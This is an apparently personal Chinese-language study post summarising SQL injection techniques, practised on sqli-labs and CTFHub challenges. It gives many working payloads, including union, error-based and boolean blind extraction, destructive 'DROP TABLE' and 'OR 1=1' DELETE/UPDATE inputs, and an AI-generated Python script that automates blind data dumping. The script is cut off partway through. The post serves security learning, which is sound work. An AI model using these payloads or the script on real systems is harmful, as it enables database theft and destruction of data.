---

title: SQL注入梳理总结
published: 2026-11-06
description: '对sql注入原理的一些梳理总结，比较粗浅，后面碰到新的点会加进来'
image: ''
tags: [SQL注入]
category: '总结'
draft: false 
lang: 'zh'
---


这里主要结合网上视频和sqli-labs等对sql注入原理进行学习和梳理总结，大多是理论总结，基本上基于MySQL语法，暂时没有考虑太多绕过

这是一张b站截的思维导图，大概的方向就这些




##  注入分类

## SQL注入数据类型分类


### 整数型

数字型后端sql,传入的数据没有被引号或括号包裹

```
后端SQL是：SELECT * FROM users WHERE id = $id
```

一般通过`1 AND 1=1` （正常）  `1 AND 1=2` （异常）判断

用联合查询来做的话就是，先测列数，探回显位，爆库、表、列、字段名

这里详细列一下（依旧手搓）

**看列数**

```
?id=1 ORDER BY 1
?id=1 ORDER BY 2
?id=1 ORDER BY 3   (直到报错)
```

**看回显位**

```
?id=-1 UNION SELECT 1,2,3
```

**提取数据**

```
?id=-1 UNION SELECT user(),database(),version()
```

**查表名列名**

在mysql特定版本有个information_schema的库，里面记载了mysql管理的所有数据库名、表名、列名，可利用它来查询

```
-- 查表名
?username=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--+

-- 查列名 (假设表名为 users)
?username=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'--+
```

有回显时查字段

假设库名为ctf

列名为flag

```
?id=-1 UNION SELECT 1,flag,3 FROM ctf.flag 
```

一次只回显一行，用limit

```
?id=-1 UNION SELECT 1,flag,3 FROM flag LIMIT 0,1 
?id=-1 UNION SELECT 1,flag,3 FROM flag LIMIT 1,1
```

多行聚合成字符串

```
?id=-1 UNION SELECT 1,group_concat(flag),3 FROM flag
```

### 字符型

参数被单引号或双引号包裹。例如 `WHERE username = 'admin'`。Payload需要先闭合前面的引号，再用注释符处理尾部

一般payload构造

```
' OR 1=1--
```

拼入后的SQL：`SELECT * FROM users WHERE username = '' OR 1=1--+'`

后续步骤和数字型差不多，重要的就是找到如何构造闭合

### 搜索型

典型搜索型SQL原貌

```
SELECT * FROM 表名 WHERE 字段 LIKE '%关键字%'  
```

`LIKE`用法是模糊匹配，`%`是通配符匹配任意长度（0 个或多个）的字符序列（通配符还有`_`  ，匹配任意单个字符）

当用户输入被拼进去后，会去匹配包含输入值、以输入值结尾或开头的值。

```
-- 模糊匹配：name 以 abc 开头
WHERE name LIKE 'abc%'

-- 模糊匹配：name 以 abc 结尾
WHERE name LIKE '%abc'

-- 模糊匹配：name 包含 abc
WHERE name LIKE '%abc%'
```

这类查询需要构造包裹，这里主要想说的是，遇到这类型时构造包裹不可在简单的**' OR 1=1 --+**

可以像这样构造闭合

输入

```
' AND 1=1 AND '%'='
或者%' AND 1=1 --+   //% 也可可用url编码 %25
```

拼进SQL就是

```
WHERE title LIKE '%' AND 1=1 AND '%'='%'
WHERE title LIKE '%%' AND 1=1 --+%'
```


### xx型

一种需要特殊闭合的字符型注入变体（我也不知道为什么叫xx型，看到了就写一下吧）

常规SQL代码

```
SELECT * FROM member WHERE username=('$name');
```

这里将用户输入包裹在括号中，常规的单引号闭合 `' or 1=1#` 无法直接生效，需要先闭合括号和引号，构造对称的语法环境

常用`') or 1=1 --+`构造闭合

当然，题目中可能故意用多层括号包裹，或者用其他特殊字符包裹

正常在用order by 查询时报错也有可能是因为没有正确构造闭合，可用加括号试试


### json型

JSON型SQL注入的本质是，当用json进行数据传输时，应用程序解析JSON数据后，如果未将其中用户可控的值安全地参数化，而是直接拼接到SQL语句中，就会产生风险

主要考察的还是如何构造闭合，当JSON型注入在闭合成功后，同样会退化为常规的注入技术

暂时没有遇到相关的题，这里先学习基础的理论

**根据JSON数据被处理的方式不同，JSON型注入主要出现在以下场景：**

**一、JSON的值（Value）被直接拼接**

后端把JSON里某个键的**值**取出来，直接塞进SQL字符串

```
"SELECT * FROM users WHERE username = '$username'"  //加入直接把用户传的username传进去，
```

正常请求

```
{"username": "admin"}
```

payload

```
{"username": "' OR 1=1-- "}
```

主要还是考如何构造闭合，闭合成功之后和正常注入一样

**二、JSON的键（Key）被用作SQL标识符或路径**

后端不是用JSON的**值**，而是用JSON的**键名**来动态构建SQL。键名被当成了列名、CAST类型、JSON路径等SQL结构的一部分

感觉有点消肿，没见过这种题，这里先学下CAST类型，其他类型等遇到了题目再来补上

**CAST类型注入（以Sequelize为例）**

`CAST` 是 SQL 标准的类型转换函数，语法：

```
CAST(表达式 AS 目标类型)
```

作用：把 `表达式` 的值转换成 `目标类型`,例如

```
CAST('123' AS INTEGER)      -- 字符串 '123' 转成整数 123
```

PostgreSQL 还有一种简写：`表达式::类型`，等价于 `CAST(表达式 AS 类型)`

而有一种Sequelize 查询，接收 JSON: {"filter": {"name": "emma"}}，允许允许在字段名后用 `::` 指定类型，如果不对输入做严格过滤就会有注入漏洞

payload

```
{"filter": {"name::text) or 1=1--": "emma"}}
```

生成的SQL

```
CAST(json_extract(metadata, '$.name') AS TEXT) OR 1=1-- ) = 'emma'
```

`text) or 1=1--` 中的 `)` 闭合了 CAST 的右括号，`OR 1=1` 让条件恒真，`--` 注释掉尾部


**三、JSON字段内的值被误用为SQL结构**

JSON里的某个值本来应该是“纯数据”，但后端错误地把它当成了**SQL标识符（列名、表名、排序方向）** 或**SQL关键字**使用

这里用ai生成的一个后端代码辅助理解

```php
// 接收 JSON: {"sort": "id", "order": "ASC"}
// sort 和 order 被直接拼进 ORDER BY
$data = json_decode(file_get_contents("php://input"), true);

$sort = $data['sort'];
$order = $data['order'];

$sql = "SELECT * FROM users ORDER BY $sort $order";
```

若`$sort` 和 `$order` 被当成 SQL 结构（列名和方向）直接拼接，没有白名单校验，则有注入漏洞

payload

```
{"sort": "id; DROP TABLE users--", "order": ""}
```

拼出来的SQL

```
SELECT * FROM users ORDER BY id; DROP TABLE users-- ASC
```

```
;                       //堆叠语句分隔符
DROP TABLE users        //追加的恶意语句,作用是删除名为users的这张表
--                      //注释掉尾部残留
```

`; DROP TABLtE users` 就是利用**堆叠查询**，堆叠查询具体的会在下面再学


## SQL注入数据库分类

根据数据库类型不同，具体的查询语句构造方法也不一样，常见的是MySQL，也有见过postgresql，这里主要以MySQL为主进行学习，其他的数据库类型注入思路基本一致。

postgresql后面再补充


## SQL注入提交方式分类

### get提交

参数在 URL 查询字符串里，在url里存在注入点，可在url后用get提交payload进行注入


### post提交

参数在请求体里，URL 上看不到，需要抓包或工具改

正常请求

```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=admin&password=123
```

拼出

```
SELECT * FROM users WHERE username = 'admin'
```

payload

```
username=admin' OR 1=1-- &password=123
```


### cookie提交

顾名思义，就是注入点在cookie里，需要在cookie中构造恶意payload

这里以sqli-labs第20关举例

登录一个正常账号，发现回显出cookie



这关的源代码是

```
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
```

从Cookie中直接获取"uname"值

注入uname‘ 发现报错，加#后正常，所以Cookie确实有注入点



order by 4报错，测出3列，后面可用用报错注入或者直接联合查询依次爆出库名、表名、列名，这里不再赘述






## SQL查询语句分类

**这里主要讲增删改（`INSERT` / `UPDATE` / `DELETE`）注入，其实和之前讲的搜索注入，在闭合逻辑上完全一样，但利用的目的、手法和风险有区别**

这里主要是篡改和删除数据，其次才是考报错注入和盲注带出数据

### insert

insert`注入点常见于**注册、留言板、日志记录**（如 User-Agent、Referer 写入数据库）等需要“存数据”的功能

举个例子，后端可以长这样

```
INSERT INTO users (username, password) VALUES ('$user', '$pass');
```

依旧是先闭合引号，然后可以用报错注入、或盲注来带出信息，具体的注入方法在后面会讲解，这里先不占用空间

但是这里有一个特殊的地方

**INSERT 的盲注有一个特殊限制：字符型位置不能直接用 `AND`，需要用 `+` 或 `or` 来构造逻辑**

```
' + if((substr((select user()),1,1)='r'), sleep(5), 1) + '
```


### update

`UPDATE` 注入常见于**修改密码、更新个人资料**等功能。注入点通常出现在 `SET` 子句的值中，或 `WHERE` 条件中

后端

```
UPDATE users SET password='$newpass' WHERE username='$user';
```

注入set后面

```
' or updatexml(1,concat(0x7e,(SELECT database())),0) or '
```

```
UPDATE users SET password='' or updatexml(1,concat(0x7e,(SELECT database())),0) or '' WHERE username='...';
```

**如果原查询的 `WHERE` 条件可以被注释掉，或注入点本身就位于 `WHERE` 中，那么 `UPDATE` 会作用于整张表**

假设拼入后：`UPDATE users SET password='...' WHERE username='' OR 1=1`   **所有用户的密码都被修改**


### delete

方法和上面差不多，但是作用是直接删除数据

后端如果长这样

```
DELETE FROM users WHERE id=$id;
```

payload`1 OR 1=1`拼入后`DELETE FROM users WHERE id=1 OR 1=1` → **`users` 表被清空**

一般可以用and 1=2 先判断来验证


## SQL注入方法分类

### 报错注入

通常是不直接回显，只会显示报错信息，可以用报错注入

**重要语句**

```
updatexml(1,2,3) //当2位置的数据不符合特定path的规则时报错，利用concat和select双查询注入可在报错信息里回显数据

extractvalue(1,2) //同理，只是参数变成两个

concat(0x7e,database(),0x74) //0x7e是‘~’ascii码的对应十六进制形式，可把要获得的报错信息用‘~’包裹起来

```

**MySQL 报错注入单次最多回显 32 个字符。如果 flag 较长，需要分段：**（可用substr截取）

假设是flag_table表 flag字段

```
-- 取前 32 字符
?id=1' AND updatexml(1,concat(0x7e,substr((SELECT flag FROM flag_table LIMIT 0,1),1,32)),1)-- 

-- 取 33-64 字符
?id=1' AND updatexml(1,concat(0x7e,substr((SELECT flag FROM flag_table LIMIT 0,1),33,32)),1)--
```

**多行时用 LIMIT 遍历**

```
?id=1' AND updatexml(1,concat(0x7e,(SELECT flag FROM flag_table LIMIT 0,1)),1)-- 
?id=1' AND updatexml(1,concat(0x7e,(SELECT flag FROM flag_table LIMIT 1,1)),1)-- 
```

这里用sqli-labs过一遍步骤

**解题步骤**

传入id=1 ，id=1‘试探出注入点就在这里





使用order by 试列数 试出是三列



尝试联合查询，结果只返回登陆状态，没有具体回显，所以尝试从报错信息入手

   

接下来构造使用updatexml()或者extractvalue()来构造payload进行尝试，爆出表名为security





接下来爆列名，此处用updatebase举例，extractvalue同理



在users中爆字段名




因为报错只能爆出一行数据，可以利用limit一行一行爆出信息



由此可以爆出所有信息


### 布尔盲注

**这是无回显注入的一种，题目只有登录状态，即真假状态，没有其他回显点**

一般判断方法先构造一对恒真/恒假条件，对比响应：

sql

```
-- 恒真
?id=1 AND 1=1
-- 恒假
?id=1 AND 1=2
```


如果两次响应的**页面内容、长度、状态码**有稳定差异，布尔盲注可用。如果完全一样，说明页面不反映查询真假，需要转向时间盲注

用ctfhub里一道题来讲解

输入1只返回success



输入1‘或1“都显示error



可以判断是整数型布尔盲注

用二分法试出database（）长度
```
1 and length(database())='4' //回显success 得出数据库名长度为4
```

下一步用ascii码爆破出数据库名,爆出来是sqli
```
1 and ascii(substr(database(),1,1))='？' //问号处要用所有字母对应ascii码填进去是，从1，1试到4，1 
```

下一步同理试表名长度 爆表名，表名是flag
```
1 and length((select table_name from information_schema.tables where table_schema='sqli' limit 0,1))='4'

1 and ascii(substr((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),1,1))='?'//可能表名是flag 试一下先
```

列名
```
1 and length((select column_name from information_schema.columns where table_schema ='sqli' and table_name=flag limit 0,1))='4'

1 and ascii(substr((select column_name from information_schema.columns where table_schema ='sqli' and table_name=flag limit 0,1),1,1))='?'//爆出来是flag
```

获取flag
payload如下

```
1 and ascii(substr((select flag from flag limit 0,1),1,1))='?'//?处用数字替换
```

**当然了，手动试肯定试到容器关了都试不出来，这种一般需要用py脚本或sqlmap自动化工具爆**

自动化工具的使用和辅助这里不详细说，这里先放个ai生成的py脚本

```
import requests
import time

# ================= 配置区域 =================
URL = "http://challenge-59fcb75f209c63d2.sandbox.ctfhub.com:10800/"
PARAM_NAME = "id"
DELAY = 0.05          # 每个请求间隔，防止被 ban；靶场不限制可改成 0
MAX_ROW_PER_COL = 5   # 每列最多爆几行数据，避免太慢
# ============================================


def check_condition(payload):
    """条件为真返回 True，为假返回 False"""
    try:
        if DELAY:
            time.sleep(DELAY)
        r = requests.get(URL, params={PARAM_NAME: payload}, timeout=5)
        return "query_error" not in r.text
    except Exception as e:
        print(f"[-] 请求出错: {e}")
        return False


def get_length(payload_base):
    """爆字符串长度，payload_base 是 database() 或 (select ... limit i,1) 形式"""
    length = 0
    for i in range(1, 200):
        payload = f"1 and length({payload_base})>{i-1}"
        if check_condition(payload):
            length = i
        else:
            break
    return length


def get_string_data(payload_base, length):
    """二分法爆字符串内容"""
    result = ""
    for i in range(1, length + 1):
        low, high = 32, 126
        while low <= high:
            mid = (low + high) // 2
            payload = f"1 and ascii(substr({payload_base},{i},1))>{mid}"
            if check_condition(payload):
                low = mid + 1
            else:
                high = mid - 1
        result += chr(low)
        print(f"    [-] 进度: {result}")
    return result


def get_count(expr):
    """
    爆某个 COUNT 表达式的结果。
    expr 不带外层括号，例如：
      select count(*) from information_schema.tables where table_schema=database()
    """
    count = 0
    for i in range(1, 500):
        payload = f"1 and ({expr})>{i-1}"
        if check_condition(payload):
            count = i
        else:
            break
    return count


def dump_item(expr_template, index):
    """
    爆一个条目。
    expr_template 含 {i} 占位符，返回带括号的子查询，例如：
      (select table_name from information_schema.tables where table_schema=database() limit {i},1)
    """
    base = expr_template.format(i=index)
    length = get_length(base)
    if length == 0:
        return ""
    return get_string_data(base, length)


def dump_list(expr_template, count, label=""):
    """爆一个列表，count 是列表长度"""
    items = []
    for i in range(count):
        print(f"[*] 正在爆 {label} 第 {i+1}/{count} 个...")
        item = dump_item(expr_template, i)
        if item:
            items.append(item)
            print(f"[+] {label}: {item}")
    return items


# ================= 主流程 =================
print("[*] 开始全自动爆库名/表名/列名/数据")

# 1. 爆当前库名
print("\n[1] 爆当前库名...")
db_len = get_length("database()")
db_name = get_string_data("database()", db_len)
print(f"[+] 库名: {db_name}")

# 2. 爆当前库的表数量
print("\n[2] 爆表数量...")
table_count_expr = "select count(*) from information_schema.tables where table_schema=database()"
table_count = get_count(table_count_expr)
print(f"[+] 表数量: {table_count}")

# 3. 爆所有表名
